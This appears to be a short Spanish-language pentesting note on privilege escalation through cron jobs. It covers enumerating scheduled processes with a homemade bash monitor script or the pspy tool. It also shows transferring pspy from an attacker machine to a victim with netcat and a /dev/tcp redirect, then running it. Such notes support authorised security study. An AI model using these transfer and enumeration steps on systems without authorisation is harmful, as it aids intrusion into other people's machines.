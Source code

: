#Escalada #Cron

###### Definición:
>Una tarea Cron son tareas que se ejecutan en el sistema a intervalos regulares de tiempo

###### Enumeración
Tenemos dos opciones:
- Hacernos nuestro propio script llamado `procmon.sh`.
	```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
	```

- Herramienta automatizada `pspy`.
	Esta herramienta la obtendremos del siguiente GitHub https://github.com/DominicBreuker/pspy
	Para transferírnosla de una maquina a otra usaremos [[NETCAT]]: 
		- En la maquina atacante: `nc -nlvp <puerto> > pspy`.
		- En la maquina victima: `cat < /dev/tcp/<IP>/<puerto> > pspy`.
		Para comprobar si la transferencia a sido optima podemos comparar hashes con `md5sum pspy`.
	Para ejecutarla la damos permisos de ejecución `chmod +x pspy` y la ejecutamos con `./pspy`.


###### 
